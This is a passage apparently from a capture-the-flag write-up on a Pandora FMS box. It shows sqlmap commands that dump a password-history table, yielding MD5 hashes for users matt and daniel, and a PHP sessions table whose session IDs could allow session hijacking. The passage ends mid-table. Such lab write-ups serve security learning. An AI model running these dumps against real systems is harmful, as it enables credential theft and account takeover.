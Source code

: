     ...[snip]...



### Session as matt

#### Password Fails

Looking though the table names, there's one called `tpassword_history`,
which I'll dump with `-D pandora -T tpassword_history --dump`:



    Database: pandora
    Table: tpassword_history
    [2 entries]
    +---------+---------+---------------------+----------------------------------+---------------------+
    | id_pass | id_user | date_end            | password                         | date_begin          |
    +---------+---------+---------------------+----------------------------------+---------------------+
    | 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
    | 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
    +---------+---------+---------------------+----------------------------------+---------------------+



These look like MD5 hashes, but neither cracks in
[CrackStation](https://crackstation.net/).

Another table that jumps out is `treset_password`, but it's empty, and I
can't find a way to trigger a reset.

#### Dump Sessions

Looking through the table names, it looks like the PHP sessions could be
stored in `tsessions_php`. I'll dump it with
`-D pandora -T tsessions_php --dump --where "data<>''"`:



    Database: pandora                                                                                        
    Table: tsessions_php                                                                                     
    [20 entries]                                                                                             
    +----------------------------+-----------------------------------------------------+-------------+
    | id_session                 | data                                                | last_active |                                                                                                                 
    +----------------------------+-----------------------------------------------------+-------------+       
    | 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
    | 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
    | 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |       
    | 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |
    | 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
    | 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
    | 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
    | agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |       
    | f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
    | g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
    | g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |       